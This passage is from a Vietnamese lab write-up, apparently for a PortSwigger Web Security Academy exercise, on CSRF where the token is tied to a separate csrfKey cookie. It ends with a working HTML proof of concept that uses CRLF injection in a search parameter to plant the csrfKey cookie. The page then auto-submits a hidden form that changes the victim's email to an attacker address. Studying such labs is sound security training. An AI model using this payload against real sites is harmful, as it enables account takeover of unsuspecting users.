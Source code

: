 Khi đó, attacker dùng tài khoản của mình để tạo token và cookie hợp lệ, rồi ép trình duyệt nạn nhân sử dụng chúng. Nhờ vậy, server sẽ chấp nhận token đó và cuộc tấn công CSRF thành công.

### LAB04 

Lab này thì mình cũng được cung cấp hai account tương tự như lab. 

Đầu tiên mình login vào tài khoản `wiener:peter`

![image](https://hackmd.io/_uploads/B1vBgN5Pxg.png)

Từ đây thấy trong Cookie có hai trường là `session` và `csrfKey`, trong phần thân thì có `csrf`

Tiếp tục login vào tài khoản thứ hai là `carlos`

![image](https://hackmd.io/_uploads/HyT0SEcwxe.png)

Nếu mình dùng csrf và csrfKey của tài khoản weiner trong tài khoản carlos thì sao? 

![image](https://hackmd.io/_uploads/ByOb8Nqvll.png)

![image](https://hackmd.io/_uploads/HyNMLNqDxe.png)

Như vậy là do `csrfKey` nằm trong phần header, mình phải tìm cách thay đổi `csrfKey` của nạn nhân. 

**Từ đây mình thấy rõ là `csrfKey` và `csrf` đều ko thay đổi. Chỉ có `session` thì thay đổi thôi.**

Như vậy nếu mình set được `csrfKey` trong cookie và nhập đúng `csrf` thì đổi được email. 

Và thông qua chức năng search của thấy như sau: 

![image](https://hackmd.io/_uploads/ByDg2VqDgg.png)

Nó ko có đính kèm `csrfKey` trong response. Vậy nếu mình truyền như sau thì sao: 

![image](https://hackmd.io/_uploads/SycIh4qPeg.png)

Như vậy mình có thể set được `csrfKey` trong Cookie. Và mình set thêm `SameSite=None` là một giá trị trong cookie, dùng để cho phép cookie được gửi đi trong các yêu cầu giữa các domain khác nhau. 

Giờ mình tạo ra 1 form giả để gửi tới nạn nhân. 

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a01002404dac1fc846a72ce000900a2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@gmail.com" />
      <input type="hidden" name="csrf" value="dq6P9ixWt9O5zOqMIglsZsJejRB7F8vm" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0a01002404dac1fc846a72ce000900a2.web-security-academy.net/?search=hahaha%0d%0aSet-Cookie: csrfKey=qjNuibHS4XFzEbJBFx5wWTvA6K7iVs3E; SameSite=None" onerror="document.forms[0].submit()">
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
